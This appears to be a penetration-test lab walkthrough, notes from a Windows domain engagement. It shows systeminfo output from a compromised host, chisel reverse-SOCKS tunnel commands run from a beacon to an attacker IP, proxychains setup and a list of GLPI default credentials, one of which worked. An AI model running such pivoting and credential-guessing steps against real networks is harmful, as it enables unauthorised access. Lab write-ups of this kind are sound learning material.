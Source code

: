 ```powershell
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                        [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.21805430.B64.2305221826, 5/22/2023
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-05:00) Eastern Time (US & Canada)
Total Physical Memory:     4,095 MB
Available Physical Memory: 2,404 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 3,087 MB
Virtual Memory: In Use:    1,712 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    dev.ADMIN.OFFSHORE.COM
Logon Server:              N/A
Hotfix(s):                 6 Hotfix(s) Installed.
                           [01]: KB4049065
                           [02]: KB4520724
                           [03]: KB4589210
                           [04]: KB5001402
                           [05]: KB5011570
                           [06]: KB5012596
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 172.16.2.6
                                 [02]: fe80::f1f7:68af:28d:f014
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```
uploaded `chisel`
![[Pasted image 20240118104513.png]]
ensure that `/etc/proxychains4.conf` file is correct
![[Pasted image 20240118113026.png]]
`chisel` server in kali
```powershell
[root💀/opt/chisel] [10.10.14.39] [2024-01-18 10:49:15]                                      
 └─╼ # ./chisel_64 server --socks5 --reverse -p 1000 
```
`chisel` client in beacon
```powershell
beacon> run chisel_64.exe client 10.10.14.39:1000 R:3080:socks
[*] Tasked beacon to run: chisel_64.exe client 10.10.14.39:1000 R:3080:socks
[+] host called home, sent: 68 bytes
[+] received output:
2024/01/18 10:49:49 client: Connecting to ws://10.10.14.39:1000
2024/01/18 10:49:49 client: Connected (Latency 16.7415ms)
```
ensure that `foxyproxy` is setup properly
![[Pasted image 20240118113452.png]]
found `glpi` server and `googled` for default credentials
- `https://forum.glpi-project.org/viewtopic.php?id=23219`
list of credentials to try `normal/normal` worked
```powershell
glpi/glpi (super-admin)  
tech/tech  
```